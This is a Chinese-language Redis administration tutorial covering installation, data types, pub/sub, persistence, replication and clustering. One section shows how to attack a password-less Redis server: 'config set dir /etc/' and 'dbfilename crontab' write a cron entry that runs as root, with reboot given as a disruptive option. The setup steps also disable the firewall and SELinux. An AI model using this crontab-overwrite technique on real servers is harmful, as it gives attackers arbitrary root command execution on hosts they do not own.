


# 开启redis

######  Markdown语法：

https://www.runoob.com/markdown/md-image.html

### 前言

#### a、关系型数据库

.jpg)

关系型数据库最典型的数据结构是表，由二维表及其之间的联系所组成的一个数据组织
优点：
1、易于维护：都是使用表结构，格式一致；
2、使用方便：SQL语言通用，可用于复杂查询；
3、复杂操作：支持SQL，可用于一个表以及多个表之间非常复杂的查询。
缺点：
1、读写性能比较差，尤其是海量数据的高效率读写；
2、固定的表结构，灵活度稍欠；
3、高并发读写需求，传统关系型数据库来说，硬盘I/O是一个很大的瓶颈。


#### b、非关系型数据库

.jpg)

非关系型数据库严格上不是一种数据库，应该是一种数据结构化存储方法的集合，可以是文档或者键值对等。
优点：
1、格式灵活：存储数据的格式可以是key,value形式、文档形式、图片形式等等，文档形式、图片形式等等，使用灵活，应用场景广泛，而关系型数据库则只支持基础类型。
2、速度快：nosql可以使用硬盘或者随机存储器作为载体，而关系型数据库只能使用硬盘；
3、高扩展性；
4、成本低：nosql数据库部署简单，基本都是开源软件。

缺点：
1、不提供sql支持，学习和使用成本较高；
2、无事务处理；
3、数据结构相对复杂，复杂查询方面稍欠。

非关系型数据库的分类和比较：
1、文档型
2、key-value型
3、列式数据库
4、图形数据库

.jpg)


.jpg)


## 一、redis源码安装

#### 环境说明

Centos7

关闭防火墙(systemctl stop firewalld; systemctl disable firewalld)

关闭selinux

### redis简介


REmote DIctionary Server(Redis) 是一个由Salvatore Sanfilippo写的key-value存储系统。

Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

它通常被称为数据结构服务器，因为值（value）可以是 字符串(String), 哈希(Hash), 列表(list), 集合(sets) 和 有序集合(sorted sets)等类型
redis是一种内存型的nosql数据库，优点是快，常用来做缓存用

### redis优势
性能极高 – Redis能读的速度是110000次/s,写的速度是81000次/s 。

丰富的数据类型 – Redis支持二进制案例的 Strings, Lists, Hashes, Sets 及 Ordered Sets 数据类型操作。

原子 – Redis的所有操作都是原子性的，意思就是要么成功执行要么失败完全不执行。单个操作是原子性的。多个操作也支持事务，即原子性，通过MULTI和EXEC指令包起来。

丰富的特性 – Redis还支持 publish/subscribe, 通知, key 过期等等特性。


#### 1: redis下载地址
https://redis.io/download

#### 2: redis源码编译
```python
#!/bin/sh
yum install -y wget gcc gcc-c++ make tar openssl openssl-devel cmake

cd /usr/local/src
wget 'http://download.redis.io/releases/redis-4.0.9.tar.gz'
tar -zxf redis-4.0.9.tar.gz
cd redis-4.0.9
make #make完后会生成可运行的二进制包，这些包直接拷贝就能够使用
```


#### 3: redis安装在/usr/local/redis里面

```python
mkdir -pv /usr/local/redis/conf /usr/local/redis/bin
cp src/redis-* /usr/local/redis/bin/  #拷贝常用的二进制文件
\rm /usr/local/redis/bin/*.c    /usr/local/redis/bin/*.o
 cp redis.conf /usr/local/redis/conf/  #拷贝配置文件
```
#### 4: 验证和软链接的建立

```python
/usr/local/redis/bin/redis-server --version
/usr/local/redis/bin/redis-cli --version
ln -s /usr/local/redis/bin/redis-cli /usr/local/bin/  #由于redis客户端经常使用，做个软链接
redis-cli --version
```

## 二、redis服务启动


### 1: 简化redis配置


```python
cp /usr/local/redis/conf/redis.conf /usr/local/redis/conf/redis.conf.bak
cat /usr/local/redis/conf/redis.conf |egrep -v '^#|^$'
mkdir -pv /data/redis/ #创建redis的数据目录


```
### 2: 更改redis配置/usr/local/redis/conf/redis.conf

```python
bind 127.0.0.1 xxx.xxx.xxx.xxx  #监听地址更改，0.0.0.0代表监控所有网卡
port 6379      #监听端口更改，6379为默认
daemonize yes    #是否后台启动
pidfile /data/redis/redis.pid   #pid存放目录
logfile "/data/redis/redis.log"  #日志存放目录
dir /data/redis/     #工作目录
```


### 3: redis服务器启动和关闭


/usr/local/redis/bin/redis-server /usr/local/redis/conf/redis.conf #启动redis服务器
redis-cli
SHUTDOWN  #关闭redis服务器

### 4: redis日志处理

```python
1: Increased maximum number of open files to 10032 (it was originally set to 1024).
/etc/security/limits.conf 增加
* - nofile 10240
2: The TCP backlog setting of 511 cannot be enforced because /proc/sys/net/core/somaxconn is set to the lower value of 128
/etc/sysctl.conf 增加
net.core.somaxconn = 10240
3: To fix this issue add 'vm.overcommit_memory = 1' to /etc/sysctl.conf
/etc/sysctl.conf 增加
vm.overcommit_memory = 1
sysctl -p
4: hugepage shutdown
echo never > /sys/kernel/mm/transparent_hugepage/enabled
写入rc.local
```


### 5: 删除日志再启动一下redis，然后再观察redis服务器

```python
\rm /data/redis/redis.log
/usr/local/redis/bin/redis-server /usr/local/redis/conf/redis.conf
```

## 三、redis数据类型

Redis支持五种数据类型：string（字符串），hash（哈希），list（列表），set（集合）及zset(sorted set：有序集合)。

### 1.String（字符串）
string 是 redis 最基本的类型，你可以理解成与 Memcached 一模一样的类型，一个 key 对应一个 value。

string 类型是二进制安全的。意思是 redis 的 string 可以包含任何数据。比如jpg图片或者序列化的对象。

string 类型是 Redis 最基本的数据类型，string 类型的值最大能存储 512MB。

#### 实例
```python
redis 127.0.0.1:6379> SET info "测试"
OK
redis 127.0.0.1:6379> GET info
"测试"

```

 在以上实例中我们使用了 Redis 的 SET 和 GET 命令。键为 runoob，对应的值为 测试。

注意：一个键最大能存储 512MB。

 redis中可能存在中文乱码的问题解决方法：redis-cli --raw

###  2.Hash（哈希）
Redis hash 是一个键值(key=>value)对集合。

Redis hash 是一个 string 类型的 field 和 value 的映射表，hash 特别适合用于存储对象。

#### 实例
注意：DEL runoob 用于删除前面测试用过的 key，不然会报错：(error) WRONGTYPE Operation against a key holding the wrong kind of value

```python
redis 127.0.0.1:6379> DEL info
redis 127.0.0.1:6379> HMSET info name "Jake" location  "shanghai" age 20
"OK"
redis 127.0.0.1:6379> HGET info name
"Jake"
redis 127.0.0.1:6379> HGET info location
"shanghai"
redis 127.0.0.1:6379> HGETALL info 
1) "name"
2) "Jake"
3) "location"
4) "shanghai"
5) "age"
6) "20"
redis 127.0.0.1:6379> HDEL info name


 

```

实例中我们使用了 Redis HMSET, HGET 命令，HMSET 设置了两个 field=>value 对, HGET 获取对应 field 对应的 value。

每个 hash 可以存储 232 -1 键值对（40多亿）。

### 3.List（列表）
Redis 列表是简单的字符串列表，按照插入顺序排序。你可以添加一个元素到列表的头部（左边）或者尾部（右边）。

#### 实例
```python
redis 127.0.0.1:6379> DEL info
redis 127.0.0.1:6379> lpush info redis
(integer) 1
redis 127.0.0.1:6379> lpush info mongodb
(integer) 2
redis 127.0.0.1:6379> lpush info rabitmq
(integer) 3
redis 127.0.0.1:6379> lpush info mongodb
(integer) 4
redis 127.0.0.1:6379> lrange info 0 10  #获取第一个和第十个
1) "rabitmq"
2) "mongodb"
3) "redis"
redis 127.0.0.1:6379>lrange info 0 -1   #获取全部
redis 127.0.0.1:6379>LREM info 1 redis #移除一个redis元素
    (integer) 1
redis 127.0.0.1:6379>LREM info 0 mongodb #移除所有mongodb元素  
    (integer) 2
redis 127.0.0.1:6379>LPOP info    #后进先出
    "redis"
redis 127.0.0.1:6379>RPOP info    #先进先出
    "rabitmq"
redis 127.0.0.1:6379>LSET info 0 pg #更改第1个元素    #先进先出
   
```
列表最多可存储 232 - 1 元素 (4294967295, 每个列表可存储40多亿)。

### 4.Set（集合）
Redis 的 Set 是 string 类型的无序不重合集合。

集合是通过哈希表实现的，所以添加，删除，查找的复杂度都是 O(1)。

#### sadd 命令
添加一个 string 元素到 key 对应的 set 集合中，成功返回 1，如果元素已经在集合中返回 0。

sadd key member
#### 实例
```python
redis 127.0.0.1:6379> DEL info
redis 127.0.0.1:6379> sadd info 25
(integer) 1
redis 127.0.0.1:6379> sadd info 26
(integer) 1
redis 127.0.0.1:6379> sadd info 23
(integer) 1
redis 127.0.0.1:6379> sadd info 25
(integer) 0
redis 127.0.0.1:6379> smembers info  #获取集合的所有值

1) "25"
2) "26"
3) "23"
redis 127.0.0.1:6379> srem info 25 #移除25的元素
    (integer) 1
redis 127.0.0.1:6379> spop info #随机移除元素
     (integer) 1
redis 127.0.0.1:6379> SISMEMBER info 35 #ages集合中是否有35的元素
      (integer) 1


```
注意：以上实例中 25添加了两次，但根据集合内元素的唯一性，第二次插入的元素将被忽略。

集合中最大的成员数为 232 - 1(4294967295, 每个集合可存储40多亿个成员)。

### 5.zset(sorted set：有序集合)

Redis zset 和 set 一样也是string类型元素的集合,且不允许重复的成员。
不同的是每个元素都会关联一个double类型的分数。redis正是通过分数来为集合中的成员进行从小到大的排序。

zset的成员是唯一的,但分数(score)却可以重复。
#### zadd 命令
添加元素到集合，元素在集合中存在则更新对应score

  zadd key score member 

实例
```python
redis 127.0.0.1:6379> DEL info
redis 127.0.0.1:6379> zadd info 3 redis
(integer) 1
redis 127.0.0.1:6379> zadd info 0 mongodb
(integer) 1
redis 127.0.0.1:6379> zadd info 2 rabitmq
(integer) 1
redis 127.0.0.1:6379> zadd info 2 rabitmq
(integer) 0
redis 127.0.0.1:6379> > ZRANGEBYSCORE info 0 1000
1) "mongodb"
2) "rabitmq"
3) "redis"
```

### 6.各个数据类型应用场景：

| 类型 | 简介 | 特性 |场景 |
| :-----| :---- | :---- |:---- |
| String(字符串) | 二进制安全 | 可以包含任何数据,比如jpg图片或者序列化的对象,一个键最大能存储512M | --- |
| Hash(字典)	| 键值对集合,即编程语言中的Map类型 | 适合存储对象,并且可以像数据库中update一个属性一样只修改某一项属性值(Memcached中需要取出整个字符串反序列化成对象修改完再序列化存回去)	 | 存储、读取、修改用户属性 |
|List(列表)	|链表(双向链表) | 增删快,提供了操作某一段元素的API	|1,最新消息排行等功能(比如朋友圈的时间线) 2,消息队列 |
|Set(集合)	| 哈希表实现,元素不重复 | 1、添加、删除,查找的复杂度都是O(1) 2、为集合提供了求交集、并集、差集等操作	 | 1、共同好友 2、利用唯一性,统计访问网站的所有独立ip 3、好友推荐时,根据tag求交集,大于某个阈值就可以推荐 |
|Sorted Set(有序集合)	 	| 将Set中的元素增加一个权重参数score,元素按score有序排列	| 数据插入集合时,已经进行天然排序	| 1、排行榜 2、带权重的消息队列 |

  

## 四、redis的发布订阅


Redis 发布订阅(pub/sub)是一种消息通信模式：发送者(pub)发送消息，订阅者(sub)接收消息。

Redis 客户端可以订阅任意数量的频道。

下图展示了频道 channel1 ， 以及订阅这个频道的三个客户端 —— client2 、 client5 和 client1 之间的关系：


.png)

当有新消息通过 PUBLISH 命令发送给频道 channel1 时， 这个消息就会被发送给订阅它的三个客户端：

.png)


####  实例
以下实例演示了发布订阅是如何工作的。在我们实例中我们创建了订阅频道名为 redisChat:


```python
subscribe redisChat  #订阅
publish redisChat 'my name is redisChat'  #推送

```


#### Redis 发布订阅命令

下表列出了 redis 发布订阅常用命令：


​	
| 序号	 | 命令| 描述 |
| :-----| :---- | :---- |
| 1| PSUBSCRIBE pattern [pattern ...]|订阅一个或多个符合给定模式的频道 |
| 2| PUBSUB subcommand [argument [argument ...]]|查看订阅与发布系统状态 |
| 3| 	PUBLISH channel message|将信息发送到指定的频道 |
| 4| PUNSUBSCRIBE [pattern [pattern ...]]|退订所有给定模式的频道 |
| 5| 	SUBSCRIBE channel [channel ...]|订阅给定的一个或多个频道的信息 |
| 6| 	UNSUBSCRIBE [channel [channel ...]]|指退订给定的频道 |


## 五、批量添加和key值查询
### 1: 批量往redis server上插入数据

利用shell脚本的seq命令

```python
for line in `seq -w 50`;do 
  redis-cli  set name_${line} shijiange_${line}
done
```

### 2: 查看key的情况
```python
keys *   #查看所有key的命令，不建议使用，上千万的key会使redis服务器堵塞
RANDOMKEY #随意返回一个key
SCAN 0  #可利用scan的索引取所有的key，使用程序可以循环取出key  不断取索引直到返回为0代表数据已经取完
```

## 六、redis加密和无密攻击

### 1.加密码方法

加密有两种方式

#### 1）.通过配置/usr/local/redis/conf/redis.conf

```python
requirepass 'shijiange' #需要重启redis

加密redis的操作方法
redis-cli 登录进去以后auth 'shijiange'
redis-cli -a 'shijiange' info 非交互式的操作
```


#### 2）.通过客户端(无需重启redis): 
```python
auth 'shijiange'   #加完密码后，需要使用auth去认证才能操作redis服务器
config get requirepass #获取指定配置
config set requirepass '' #无需重启redis服务器将密码置为空，平滑更新配置
config rewrite   #平常更新配置完后需要写入到配置文件，预防重启后配置失效
config set requirepass 'shijiange' #重新设置密码
```


### 2.入侵无密码redis服务器(rdb存储)

RDB存储攻击


0 1 * * * /sbin/reboot           ( 0 1 * * *表示每天凌晨一点重启.)

```python
redis-cli -h xxx.xxx.xxx.xxx config set dir /etc/  #用config set把redis路径定义到ETC里面

redis-cli -h xxx.xxx.xxx.xxx config set dbfilename "crontab" #将dbfilename设置到crontab

/tmp/attack的内容(需要四个回车前后两个回车)
* * * * * root echo 'attack'    #如果定义成reboot可以造成服务器一直重启

# 0 1 * * * /sbin/reboot           ( 0 1 * * *表示每天凌晨一点重启.)

cat /tmp/attack | redis-cli -h xxx.xxx.xxx.xxx -x set attack  #-x会从标准输出中读取 设置了attack的key值  value是/tmp/attack中的内容
redis-cli -h 127.0.0.1 save  #触发rdb存储
vim  /etc/crontab  #查看
# 多出
* * * * * root echo 'attack'
#  该命令可以任意修改  可以跑任意进程


```

## 七、Redis的RDB和AOF存储
### 1、RDB存储方式
#### 1): redis的运行方式说明

redis如果提供缓存的服务，可以关闭所有存储，这样子如果redis重启后所有数据会丢失。

开启rdb或者aof存储，能把redis中的数据持久化到磁盘中。

rdb和aof对性能都有影响，所以建议持久化的操作在从库上执行。

#### 2): redis rdb存储方式，使用save配置开启rdb存储或者关闭rdb存储
```python
dir /data/redis/    #dir为rdb存储的路径
dbfilename dump.rdb  #rdb存储文件的名字
save 60 10000   #60s更改10000个key，则触发rdb存储
save 300 10    #300s更改了10个key则触发存储
save 900 1    #900s更新了1个key则触发存储
rdbcompression no   #rdb压缩最好关闭，影响cpu
```


#### 3): 设置开启或者关闭rdb
```python
config set save '' #关闭rdb存储
config rewrite
config set save "180 1 120 10 60 10000" #开启rdb存储
config rewrite
```


#### 4): 写入数据，观察rdb存储
```python
for line in `seq -w 100`;do
  redis-cli set key_${line} value_${line}
done
```


#### 5): redis提供的bgsave命令能够触发rdb存储，观察存储日志
```python
bgsave #会启动一个新进程存储 
save  #阻塞存储  未进行完不能set/get操作
```
### 2、AOF存储方式

#### 1): redis的appendonly存储配置
appendonly会把用户的每次写操作都记录到文件中

#### 2): 动态开启或者关闭aof
```python
config set appendonly yes #开启
config rewrite
config set appendonly no  #关闭
config rewrite
```


#### 3): 写入数据，观察aof。多次运行，aof文件不断增大，rdb文件大小不变
```python
for line in `seq -w 100`;do
  redis-cli set key_${line} value_${line}
done
```

查看：cat  appendonly.aof|grep key_1

#### 4): 重写aof文件，整理相同的key，写入最后有效的值

BGREWRITEAOF

#### 5): aof配置自动rewrite

```python
auto-aof-rewrite-percentage #默认为100%，也就是增加一倍后考虑aof rewrite
auto-aof-rewrite-min-size  #默认为64mb，也就是达到64M后再rewrite。跟上一个条件要同时满足(config set auto-aof-rewrite-min-size 100000观察)
```


### 3、RDB和AOF的区别

#### 前言

最近在项目中使用到Redis做缓存，方便多个业务进程之间共享数据。由于Redis的数据都存放在内存中，如果没有配置持久化，redis重启后数据就全丢失了，于是需要开启redis的持久化功能，将数据保存到磁盘上，当redis重启后，可以从磁盘中恢复数据。redis提供两种方式进行持久化，一种是RDB持久化（原理是将Reids在内存中的数据库记录定时dump到磁盘上的RDB持久化），另外一种是AOF持久化（原理是将Reids的操作日志以追加的方式写入文件）。那么这两种持久化方式有什么区别呢，改如何选择呢？网上看了大多数都是介绍这两种方式怎么配置，怎么使用，就是没有介绍二者的区别，在什么应用场景下使用。

#### 二者的区别

RDB持久化是指在指定的时间间隔内将内存中的数据集快照写入磁盘，实际操作过程是fork一个子进程，先将数据集写入临时文件，写入成功后，再替换之前的文件，用二进制压缩存储

AOF持久化以日志的形式记录服务器所处理的每一个写、删除操作，查询操作不会记录，以文本的方式记录，可以打开文件看到详细的操作记录。

 #### 二者优缺点

##### RDB存在哪些优势呢？

1). 一旦采用该方式，那么你的整个Redis数据库将只包含一个文件，这对于文件备份而言是非常完美的。比如，你可能打算每个小时归档一次最近24小时的数据，同时还要每天归档一次最近30天的数据。通过这样的备份策略，一旦系统出现灾难性故障，我们可以非常容易的进行恢复。

2). 对于灾难恢复而言，RDB是非常不错的选择。因为我们可以非常轻松的将一个单独的文件压缩后再转移到其它存储介质上。

3). 性能最大化。对于Redis的服务进程而言，在开始持久化时，它唯一需要做的只是fork出子进程，之后再由子进程完成这些持久化的工作，这样就可以极大的避免服务进程执行IO操作了。

4). 相比于AOF机制，如果数据集很大，RDB的启动效率会更高。

##### RDB又存在哪些劣势呢？

1). 如果你想保证数据的高可用性，即最大限度的避免数据丢失，那么RDB将不是一个很好的选择。因为系统一旦在定时持久化之前出现宕机现象，此前没有来得及写入磁盘的数据都将丢失。

2). 由于RDB是通过fork子进程来协助完成数据持久化工作的，因此，如果当数据集较大时，可能会导致整个服务器停止服务几百毫秒，甚至是1秒钟。

##### AOF的优势有哪些呢？

1). 该机制可以带来更高的数据安全性，即数据持久性。Redis中提供了3中同步策略，即每秒同步、每修改同步和不同步。事实上，每秒同步也是异步完成的，其效率也是非常高的，所差的是一旦系统出现宕机现象，那么这一秒钟之内修改的数据将会丢失。而每修改同步，我们可以将其视为同步持久化，即每次发生的数据变化都会被立即记录到磁盘中。可以预见，这种方式在效率上是最低的。至于无同步，无需多言，我想大家都能正确的理解它。

2). 由于该机制对日志文件的写入操作采用的是append模式，因此在写入过程中即使出现宕机现象，也不会破坏日志文件中已经存在的内容。然而如果我们本次操作只是写入了一半数据就出现了系统崩溃问题，不用担心，在Redis下一次启动之前，我们可以通过redis-check-aof工具来帮助我们解决数据一致性的问题。

3). 如果日志过大，Redis可以自动启用rewrite机制。即Redis以append模式不断的将修改数据写入到老的磁盘文件中，同时Redis还会创建一个新的文件用于记录此期间有哪些修改命令被执行。因此在进行rewrite切换时可以更好的保证数据安全性。

4). AOF包含一个格式清晰、易于理解的日志文件用于记录所有的修改操作。事实上，我们也可以通过该文件完成数据的重建。

##### AOF的劣势有哪些呢？

1). 对于相同数量的数据集而言，AOF文件通常要大于RDB文件。RDB 在恢复大数据集时的速度比 AOF 的恢复速度要快。

2). 根据同步策略的不同，AOF在运行效率上往往会慢于RDB。总之，每秒同步策略的效率是比较高的，同步禁用策略的效率和RDB一样高效。

二者选择的标准，就是看系统是愿意牺牲一些性能，换取更高的缓存一致性（aof），还是愿意写操作频繁的时候，不启用备份来换取更高的性能，待手动运行save的时候，再做备份（rdb）。rdb这个就更有些 eventually consistent的意思了。

## 八、redis主从复制

### 1: redis的主从复制介绍
redis的主从就是多台redis的数据保持一致。redis主服务器可写入和读取，从服务器只读。

redis第一次同步的时候，redis主服务器生成一个rdb文件同步到从，从服务器加载到内存。

### 2: 启动两个redis
```python
mkdir -pv /data/redis/6379 /data/redis/6380
cp /usr/local/redis/conf/redis.conf /data/redis/6379/
cp /usr/local/redis/conf/redis.conf /data/redis/6380/
```


更新配置
```python
port 6379 
pidfile /data/redis/6379/redis.pid 
logfile "/data/redis/6379/redis.log"
dir /data/redis/6379/

/usr/local/redis/bin/redis-server /data/redis/6379/redis.conf #启动6379的redis
/usr/local/redis/bin/redis-server /data/redis/6380/redis.conf #启动6380的redis

```

### 2: redis主从的配置，6379为主库，6380为从库
```python
redis-cli -p 6380
SLAVEOF xxx.xxx.xxx.xxx 6379
config rewrite
```


### 3: 查看主从同步信息
info Replication

### 4: 设置主从后，从库只有读权限
```python
redis-cli -p 6380
set name shijiange
```


### 5: 往主写入数据，主从数据会保持同步
set name shijiange

### 6: 主从同步的停止
SLAVEOF no one #在从库上运行

### 7: 观察第一次同步的情况，查看日志
SLAVEOF xxx.xxx.xxx.xxx 6379

### 8: 加密的主从同步
```python
config set requirepass 'shijiange' #主服务器设置密码，从服务器过段时间就显示为down的状态了
config set masterauth 'shijiange' #从服务器需要设置主从同步的认证密码
#requirepass和masterauth主从的配置保持一致，预防主从切换后环境不一致。

```


### 9: redis一主多从的配置
```python
    -> 从
主  -> 从
    -> 从

```


### 10: redis 主->从->从(去从库那同步数据)

## 九、redis集群搭建

redis从3.0从版本后本身支持集群，我们使用的是4.0.9，不依赖于第三方工具

### 1: redis集群特性
redis集群方式支持主从自动切换

redis集群只有一个库，单例或者主从的话有多个库

redis集群去中心化，只要通过其中一个入口连接即可

### 2: redis自带集群搭建，一般使用三主三从来构建，演示主使用7000 7001 7002，从使用8000 8001 8002
```python
mkdir /data/redis-cluster
cd /data/redis-cluster
mkdir -pv 7000 7001 7002 8000 8001 8002

```


### 3: redis集群配置/data/redis-cluster/7000/redis.conf

```python
cluster-enabled yes
port 7000
logfile "/data/redis-cluster/7000/redis.log"
pidfile "/data/redis-cluster/7000/redis.pid"
dir "/data/redis-cluster/7000"
daemonize yes
bind 127.0.0.1 172.16.0.7
tcp-backlog 1024
timeout 0
tcp-keepalive 0
loglevel notice
stop-writes-on-bgsave-error yes
rdbcompression yes
rdbchecksum yes
dbfilename "dump.rdb"
slave-serve-stale-data yes
slave-read-only yes
repl-diskless-sync no
repl-diskless-sync-delay 5
repl-disable-tcp-nodelay no
slave-priority 100
appendonly no
appendfilename "appendonly.aof"
appendfsync everysec
no-appendfsync-on-rewrite yes
auto-aof-rewrite-percentage 100
auto-aof-rewrite-min-size 64mb
aof-load-truncated yes
lua-time-limit 5000
slowlog-log-slower-than 10000
slowlog-max-len 128
latency-monitor-threshold 0
notify-keyspace-events ""
hash-max-ziplist-entries 512
hash-max-ziplist-value 64
list-max-ziplist-entries 512
list-max-ziplist-value 64
set-max-intset-entries 512
zset-max-ziplist-entries 128
zset-max-ziplist-value 64
hll-sparse-max-bytes 3000
activerehashing yes
client-output-buffer-limit normal 0 0 0
client-output-buffer-limit slave 256mb 64mb 60
client-output-buffer-limit pubsub 32mb 8mb 60
hz 10
aof-rewrite-incremental-fsync yes

```

### 4: 启动redis服务器

```python
修改配置文件:%s/7000/7001/g

/usr/local/redis/bin/redis-server /data/redis-cluster/7000/redis.conf
/usr/local/redis/bin/redis-server /data/redis-cluster/7001/redis.conf
/usr/local/redis/bin/redis-server /data/redis-cluster/7002/redis.conf


```


### 5: 编译安装高ruby版本，Ruby版本需要大于等于2.2.2，使用yum安装的不符合
```python
wget --no-check-certificate 'https://cache.ruby-lang.org/pub/ruby/2.4/ruby-2.4.7.tar.gz'
tar -zxvf ruby-2.4.7.tar.gz
cd ruby-2.4.7
./configure #环境探测
make  #编译
make install #安装
ruby --version

ruby的redis扩展安装，如果有自带ruby的话，调用gem要用绝对路径
/usr/local/bin/gem install redis


```

编译完成标志：



安装完成标志：



### 6: 使用redis自带的工具集群

```python
/usr/local/redis/bin/redis-trib.rb create 172.16.0.7:7000 172.16.0.7:7001 172.16.0.7:7002 #三个主

```

### 7: 查看集群的信息
redis-cli -p 7000 cluster nodes

### 8: 使用redis-cli去操作集群，需要加入-c参数
```python
redis-cli -c -h 172.16.0.7 -p 7000
set name1 shijiange1
set name2 shijiange2

```


### 9: 去中心化，随意一个入口
```python
redis-cli -p 7000 -c get name1
redis-cli -p 7001 -c get name1

```

### 10: 批量导入数据观察
```python
for line in `seq -w 5000`;do
  redis-cli -h 172.16.0.7 -p 7000 -c set key_${line} value_${line}
done

```
## 十、redis集群故障自动切换

### 启动从库

%s/7000/8000/g

```python
/usr/local/redis/bin/redis-server /data/redis-cluster/8000/redis.conf
/usr/local/redis/bin/redis-server /data/redis-cluster/8001/redis.conf
/usr/local/redis/bin/redis-server /data/redis-cluster/8002/redis.conf

```


### 1: redis自带集群的从库添加
```python
/usr/local/redis/bin/redis-trib.rb add-node --slave 172.16.0.7:8001 172.16.0.7:7000  #添加从
/usr/local/redis/bin/redis-trib.rb add-node --slave 172.16.0.7:8002 172.16.0.7:7001
/usr/local/redis/bin/redis-trib.rb add-node --slave 172.16.0.7:8000 172.16.0.7:7002

```

查看：redis-cli -p 8001 cluster nodes

.png)

### 2: 去中心化

从库的端口也能get或者set数据

### 3: redis集群的主从自动切换，主挂掉后，从自动变为主
redis-cli -p 7000

shutdown

如果主挂了，从会自动升为主。主再起来会变为从

### 4: 手动切换主从
CLUSTER FAILOVER

### 5: 研究方向
集群的扩展，假如集群扩到四台机器，key需要怎么分配？
